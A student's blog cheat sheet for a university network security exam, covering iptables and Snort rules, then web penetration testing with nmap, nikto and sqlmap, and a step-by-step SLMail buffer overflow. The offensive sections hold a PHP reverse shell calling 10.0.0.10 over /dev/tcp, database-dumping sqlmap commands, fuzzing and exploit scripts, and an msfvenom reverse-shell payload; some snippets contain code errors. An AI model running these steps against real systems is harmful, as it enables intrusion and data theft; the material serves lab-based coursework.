

+++
title = "How to hack (QUT CAB441 cheat sheet)"
description = "My cheat sheets and preparation heading into the CAB441 Network Security exam."
aliases = ["/blog/2018-10-29-how-to-hack-QUT-cab441-cheat-sheet/"]
[taxonomies]
tags = [ "infosec" ]
+++

## Purpose of this post

This cheat sheet is the main resource coming in with me into my CAB441 Network Security exam. As we have access to the internet, it was encouraged to create a sheet that would be readily accessible and CTRL-F-able.

## Network Security

### Iptables

Here's a cool [cheat sheet](https://duckduckgo.com/?q=iptables+cheat+sheet&atb=v138-7__&ia=cheatsheet&iax=1). `man iptables` and `main iptables-extensions` are both very useful. If you want to visualise your iptables rules, [check this out](http://jekor.com/gressgraph/).

#### Chains

There are five built in `iptables` chains.

- INPUT
- OUTPUT
- FORWARD
- PREROUTING
- POSTROUTING



#### Tables

There are five built-in `iptables` tables. The first three are the most common. The following descriptions have been taken from the `TABLES` section of the man pages. The previous flow chart also shows the different tables.

- filter

  > This is the default table (if no -t option is passed). It contains the built-in chains INPUT (for packets destined to local sockets), **FORWARD** (for packets being routed through the box), and **OUTPUT** (for locally-generated packets).

- nat

  > This table is consulted when a packet that creates a new connection is encountered. It consists of four built-ins: **PREROUTING** (for altering packets as soon as they come in), **INPUT** (for altering packets destined for local sockets), OUTPUT (for altering locally-generated packets before routing), and **POSTROUTING** (for altering packets as they are about to go out).

- mangle
  > This table is used for specialized packet alteration. Until kernel 2.4.17 it had two built-in chains: PREROUTING (for altering incoming packets before routing) and OUTPUT (for altering locally-generated packets before routing). Since kernel 2.4.18, three other built-in chains are also supported: INPUT (for packets coming into the box itself), FORWARD (for altering packets being routed through the box), and POSTROUTING (for altering packets as they are about to go out).

There are also `raw` and `security` tables.

#### Targets

There are six `iptables` targets.

- ACCEPT
  > Let the packet through.
- DROP
  > Drop the packet on the floor
- REJECT
  > Let the other end know the destination port is unreachable
- MASQUERADE
  > Mask the private IP address of a node with the exernal IP address of the firewall / gateway
- RETURN
  > Stop traversing the chain and resume at the next rule in the previous (calling) chain. If the end of the chain is reached, the chain policy is used.
- QUEUE
  > Pass the packet to userspace

Note: there are more targets that have very specific cases. For example, the `DNAT` target can only exist in the `nat` table and will only be valid in the `PREROUTING` and `OUTPUT` chains. More info about these targets can be found in the `iptables` and `iptables-extensions` man pages.

#### Rules

Delete all rules:

```bash
iptables --flush
```

Set a default policy:

```bash
iptables --policy <chain> <target>
```

Set a rule for a certain protocol:

```bash
iptables -A <chain> -p <protocol> -j <target>

# Valid: tcp / udp / icmp / all ...
```

#### Iptables extensions

`iptables` can use extended packet matching and target modules using the `-m` option.

If a protocol is specified using the `-p` option, and an unknown extension option is encountered, `iptables` will load a match module identical to the name of the protocol.

These extended match modules allow further constraints on rules and add more command line options.

Matching the state of a packet

```bash
# Allow new and established packets out of the
# machine, but only allow established ones in.

iptables -A OUTPUT -m state --state NEW,ESTABLISHED \
  -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED \
  -j ACCEPT
```

Redirecting a packet destined for port 80 to a different ip:

```bash
# The DNAT target is an extension that becomes
# available when using the nat table and
# PREROUTING / OUTPUT chains.

# The --dport option is an extension that become
# availble when using the -p tcp option.

# The --to-destination option becomes available
# when using the DNAT target.

iptables -t nat -A PREROUTING \
  -i enp0s3
  -p tcp --dport 80 -j DNAT
  --to-destination 192.168.10.24:80
```

View `man iptables-extensions` for more information.

### Snort

You can write rules for snort by creating a `.rules` file in the `/etc/snort/rules` folder. Alternatively, you can edit the `snort.conf` file or use the `local.rules` file. Read more about how to write `snort` rules [here](http://books.gigatux.nl/mirror/snortids/0596006616/snortids-CHP-7-SECT-3.html).

The complete docs can be found [right here](http://manual.snort.org/node1.html).

Basic `snort` rule syntax:

```
<action> <protocol> <src-ip> <src-port> -> \
  <dst-ip> <dst-port> (<options>)
```

#### Actions

- **alert**: alerts and logs the packet when triggered
- **log**: only logs the packet when triggered
- **pass**: ignored or drops the packet or traffic matching
- **dynamic**: alerts then activates a dynamic rule or rules
- **drop**: block and log the packet
- **reject**: block the packet, log it, and then send an unreachable message
- **sdrop**: block the packet but do not log it

#### Rule options

- **msg: <sample message\>**: Logs the message into `/var/snort/log` on a successful match
- **flags: <flags\>**: Match specific TCP flags (see below)
- **content: <text\>**: Match specific text in a packet
- **content: \|<hex\>\|**: Match specific hex characters
- **sid: <snort id\>**: Unique number to identify rules easily
- **rev: <revision #\>**: Rule revision number
- **reference: <ref\>**: Where to go to get more info about the rule
- **gid: <generator id\>**: Identifies which part of `snort` generated the alert.

You can find more information about rule options [at the snort docs](http://manual-snort-org.s3-website-us-east-1.amazonaws.com/node32.html#SECTION004524000000000000000).

#### TCP flags

- **A** = ACK
- **F** = FIN
- **P** = PSH
- **R** = RST
- **S** = SYN
- **U** = URG
- **2** = reserved bit
- **1** = most significant bit
- **0** = no flags

#### Examples

Alert when a URL is over 200 bytes long.

```
alert tcp $EXTERNAL_NET any -> $HOME_NET any \
  (msg:"More than 200 bytes";urilen:>200)
```

## Web Penetration Testing

### Resources

1. [Web Penetration Writeup](https://blog.vonhewitt.com/2017/09/tophatsec-freshly-vulnhub-writeup/):
   A pen-test walk-through, _eerily_ mirroring the web penetration testing practical.

2. [SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens):
   The SQL injection cheat sheet used in the aforementioned walkthrough.

3. [nmap Cheat Sheet](https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/):
   Simple `nmap` cheat sheet. The command `man nmap` is also very useful.

4) [nikto Cheat Sheet](https://duckduckgo.com/?q=nikto+cheat+sheet&atb=v138-7__&ia=cheatsheet&iax=cheatsheet):
   Nikto scanner cheat sheet. `man nikto` can also be used on Kali.

5. [sqlmap Cheat Sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)
   Sqlmap scanner cheat sheet. `man sqlmap` can also be used on Kali.

### Steps

1. Identify the devices by performing a ping scan.

   ```bash
     nmap <network>/24 -sn
   ```

2. After finding the devices, perform a service / port scan for each device.

   ```bash
     nmap <device> -sV
   ```

3. Since this is a web penetration test, use the results of the previous `nmap` scan to find which device is running a `http` or `ssl/http` service. These are typically on ports `80`, `433` or `8080` and contain words like `httpd`, `Apache`, etc.

4. When the target device has been identified, visit the pages in a web browser to see what's there. Alternatively, this could be done with the `curl` command. Check for common directories and files like `/login`, `sitemap.xml` and `robots.txt`.

5. If nothing in particular stands out from an initial inspection, use the `nikto` command to perform a more thorough inspection.

   ```bash
   nikto -host <target> -C all
   ```

   If nothing useful pops up, run `nikto` on a different port or using ssl.

   ```bash
   nikto -host <target> -C all -ssl -p 80,8080,443
   ```

   It might also pay to run `nikto` with different tuning options. To focus on SQL Injection use the command

   ```bash
   nikto -host <target> -Tuning 9
   ```

   For more help with `nikto`, refer to `nikto -h` or `man nikto`.

   Note: Nikto is self described as being not stealthy, if stealth is your goal it may pay to spend more time on Step 4.

6. Nikto will return a bunch of information relating to your query. Most likely you'll see a bunch of directories and files on the server that may be of interest. You should inspect these files and look for any SQL injection opportunities.

7. Plan in advance how you intend to get a reverse shell, as the exam has a fixed time and `sqlmap` can take a long time to run. In the case of the practical, it was obvious that it would be through the wordpress site. Once I'd gathered enough information, I decided that the easiest way to get into the wordpress site would be finding an admin user's password.

### Attack

When a page with a form or endpoint that is vulnerable to SQL injection is found, use the `sqlmap` tool to perform an attack.

```bash
sqlmap -u "<url>" --wizard
```

If you've found a form, you can paste the following JavaScript method into your browser's console to get the data string.

```javascript
console.log(
  Array.from(document.querySelector("form").querySelectorAll("input"))
    .map((input) => `${input.name}=${input.value || ""}`)
    .join("&")
);
```

When you have it, try and find a list of databases using:

```bash
sqlmap -u "<url>" --dbs --data="<data>" --level 2 --risk 2
```

Typically, it will use a delay based technique to determine the contents of the SQL database. If you issued the above command, and followed the prompts, you'll see the command will slowly letter-by-letter spell out the databases on the device. When you see one that will aid your takeover.

Once you see a database that will be of interest, feel free to perform a keyboard interrupt and continue on with the next steps.

Find the tables in the target database:

```bash
sqlmap -u "<url>" --batch --tables -D <database> --data="<data>"
```

Once again it will type out letter-by-letter the contents of the table. When you spot something interesting, skip straight to finding it's contents.

Find the contents of a table:

```bash
sqlmap -u "<url>" --batch --dump -D <database> -T <table> --data="<data>"
```

Note: Instead of going through step by step like I explained, you could use the `sqlmap` wizard. I find this to be incredibly slow however, and wouldn't encourage it in a time-limited situation. Nonetheless, if you'd like to use the wizard issue the command:

```bash
sqlmap -u "<url>" --wizard
```

### Take control

The steps to get a reverse shell will depend on the content of the database. In the case of the practical, finding the contents of the database allowed you to log into the wordpress site that was present. After logging in, a php reverse shell script could easily be added to the site.

### Tips

1. Try accessing the site using different protocols. `https://` and `http://` are often used to show different things.

2. `sqlmap` can often take ages, but it stores data to disk as it goes. So if you perform a keyboard interrupt you can often get right back to where you were.

3. The default table name for a Wordpress site is `wordpress8080`

4. The Wordpress admin page lives as `/admin`

5. [This gist](https://gist.github.com/rshipp/eee36684db07d234c1cc) shows an easy way to get a reverse PHP shell

   ```php
   <?php
     exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
     ?>
   ```

   Before visiting the page, you should set up the listener.

   ```bash
   nc -nlvp 1234
   ```

6. Since the `POST` method doesn't show the data as query parameters, you will have to use the `--data` option of `sqlmap`. More information on using `sqlmap` with `POST` can be found [here](https://www.binarytides.com/using-sqlmap-with-login-forms/).

7. John the Ripper is a useful piece of software in Kali that can crack passwords.

## Exploiting Buffer Overflows

### Resources

Before attempting a buffer overflow, you should read up on how the CPU works on a low level.

1. [Program Counter / Instruction Pointer](https://en.wikipedia.org/wiki/Program_counter)
2. [Call Stack](https://en.wikipedia.org/wiki/Call_stack)
3. [Buffer Overflow Overview](http://www.cse.scu.edu/~tschwarz/coen152_05/Lectures/BufferOverflow.html)
4. [SLMail Buffer Overflow Tutorial](https://www.hugohirsh.com/?p=509)
5. [Writing An Exploit](https://www.offensive-security.com/metasploit-unleashed/writing-an-exploit/)
6. [Simple Buffer Overflows](https://netsec.ws/?p=180)

### Steps

1. Setup the machine with the vulnerability and open Immunity Debugger.

2. Attach Immunity Debugger to the application and start it up.

3. Determine how to cause the buffer overflow - you will most likely be told. When you know, you can start to fuzz the input to cause a crash. The following script was used for SLMail and comes from [here](https://www.hugohirsh.com/?p=509).

   ```python
   # SLMail Tutorial
   import socket

   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

   buffer = "A" * 100

   while len(buffer) <= 4000:
       try:
           print "We are fuzzing with a length of %s bytes" % len(buffer)
           s.connect(('<address>', 110))
           data = s.recv(1024)
           s.send('USER user ' + '\r\n')
           data = s.recv(1024)
           s.send('PASS ' + buffer + '\r\n')
           data = s.recv(1024)
           s.close()
           buffer += 200
       except:
           print "Could not connect to POP3 for some reason..."
   ```

   Upon causing a crash, note down the length of the buffer required to cause the crash.

4. Determine what part of the message ends up being written to the EIP register. This can be done using the `pattern_create.rb` file in the metasploit tools directory. This will create a unique string that will allow you to see how many characters are required to make it into the program counter.

   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb <buffer length>
   ```

   Now copy and paste this into your python script.

   ```python
   # SLMail Tutorial
   import socket

   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

   buffer = "<paste-here>"

   try:
       print "Sending unique buffer of %s bytes" % len(buffer)
       s.connect(('<address>', 110))
       data = s.recv(1024)
       s.send('USER user ' + '\r\n')
       data = s.recv(1024)
       s.send('PASS ' + buffer + '\r\n')
       data = s.recv(1024)
       s.close()
   except:
       print "Could not connect to POP3 for some reason..."
   ```

   Finally, inspect immunity debugger and note the characters in the EIP register. Cross reference with the pasted buffer to determine the offset.

   Note: `pattern_create.rb` has a sister tool called `pattern_offset.rb` that can help you to determine the offset.

5) Now that you know start of the part of the message that overflows into the program counter, verify that it's correct by sending a buffer made of "A"s, "B"s and "C"s. The "A"s represent the data that consumes the stack, the "B"s represent the return address and the "C"s represent the arbitrary shellcode to be executed.

   You can easily create this buffer using python:

   ```python
   crash_length = <length>
   eip = "BBBB"
   buffer = "A" * offset + eip * "C" * (crash_length - offset - len(eip))
   ```

6) Once you've verified that the offset is correct, you have to find a way to get an instruction into the program counter that will jump to the top of the stack and begin executing your arbitrary shell code.

   Inside immunity debugger, click on the command box at the bottom of the page and write the following command:

   ```bash
   !mona modules
   ```

   This will bring up a list of modules / libraries that are dynamically linked to the executable. Inside one of these modules is probably the assembly command `JMP ESP`, which will jump to the top of the stack.

   When deciding on a DLL to use, it's important that you choose one that was compiled with DEP (Data Execution Prevention) and ASLR (Address Space Layout Randomization) disabled.

7) Once you've found a module with the previous security features turned off, you must search for the command `JMP ESP` inside it. The shellcode for this command is `FFE4` which can be found using the `nasm-shell.rb` utility in metasploit. Return to the command box and issue:

   ```bash
   !mona find -s "\xff\xe4" -m <target-dll>
   ```

   Note down the address of the memory that contains the command. As Windows is little endian, the bytes of the address should be reversed.

8) There's one final thing to do before starting the attack - find "bad characters" that will cause your program to stop.

   To find out what characters are bad, send a list of all ascii characters and note where it stops. Remove the troublesome characters and try again until all of them make it through. Make note of the "bad characters".

   Here's a list of all ascii characters:

   ```python
   chars =
     ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
     "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
     "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
     "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
     "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
     "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
     "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
     "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
     "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
     "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
     "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
     "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
     "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
     "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
     "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
     "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
   ```

### Attack

Now that you've got all the information required to execute code on the target machine. This can be done using the tools `msfvenom` and `shikata_ga_nai`.

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp \
  LHOST=<HOST> LPORT=<PORT> \
  -e x86/shikata_ga_nai \
  -f python -b '<bad-chars>'
```

Once you have the payload, add it back into your python code. It's important that you space the payload out with some NOP characters (`\x90`) so that your program has space to execute.

```python
malicous_payload = "<msfvenom payload>"
return_address = "<JMP ESP address>"
offset = "<EIP offset>"
overflow_length = "<amount of characters to oveflow>"

payload = "A" * offset + return_address + \
  '\x90' * 16 + malicous_payload + \
  "C" * (overflow_length - \
    len(malicous_payload) - \
    offset - len(return_address) - 16)
```

### Take control

Now that you've got your payload ready, it's just a matter of setting up a `nc` listener and performing the exploit. It's important that you test the payload before attacking a real machine, because you only get one shot. It's also important that you don't forget to make the return address the right one for the network you're on.
